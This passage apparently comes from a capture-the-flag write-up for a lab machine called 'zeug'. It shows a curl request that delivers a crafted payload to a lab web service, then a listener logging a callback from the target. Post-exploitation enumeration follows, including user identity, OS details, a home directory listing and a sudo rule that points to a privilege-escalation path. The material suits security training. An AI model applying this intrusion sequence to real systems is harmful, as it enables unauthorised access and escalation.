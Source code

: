 `curl -X POST http://192.168.56.147:5000/ --data-binary @html_python_request.txt --header "Content-Type: multipart/form-data; boundary=---------------------------156927482725802177751080524724"`

```
[13:21:45] received connection from 192.168.56.147:45604 ←
[13:21:46] 192.168.56.147:45604: registered new host w/ db
```

![Victim: cosette](https://img.shields.io/badge/Victim-cosette-64b5f6?logo=linux&logoColor=white)

`whoami`:
```
cosette ←
```

`id`:
```
uid=1001(cosette) gid=1001(cosette) groups=1001(cosette)
```

`uname -a`:
```
Linux zeug 6.1.0-17-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.69-1 (2023-12-30) x86_64 GNU/Linux
```

`cat /etc/os-release`:
```
PRETTY_NAME="Debian GNU/Linux 12 (bookworm)"
NAME="Debian GNU/Linux"
VERSION_ID="12"
VERSION="12 (bookworm)"
VERSION_CODENAME=bookworm
ID=debian
HOME_URL="https://www.debian.org/"
SUPPORT_URL="https://www.debian.org/support"
BUG_REPORT_URL="https://bugs.debian.org/"
```

`cd /home/cosette`

`ls -alps ./`:
```
total 44
 4 drwx------ 4 cosette cosette  4096 Jan  7  2024 ./
 4 drwxr-xr-x 4 root    root     4096 Jan  6  2024 ../
 0 lrwxrwxrwx 1 cosette cosette     9 Jan  6  2024 .bash_history -> /dev/null
 4 -rwx------ 1 cosette cosette   220 Apr 23  2023 .bash_logout
 4 -rwx------ 1 cosette cosette  3526 Apr 23  2023 .bashrc
 4 drwx------ 3 cosette cosette  4096 Jan  6  2024 .local/
 4 -rwx------ 1 cosette cosette   807 Apr 23  2023 .profile
16 -rwx------ 1 cosette cosette 15744 Jan  7  2024 seed_bak ←
 4 drwx------ 6 cosette cosette  4096 Oct 18 05:57 zeug/
```

`sudo -l`:
```
Matching Defaults entries for cosette on zeug:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User cosette may run the following commands on zeug:
    (exia) NOPASSWD: /home/exia/seed ←
```
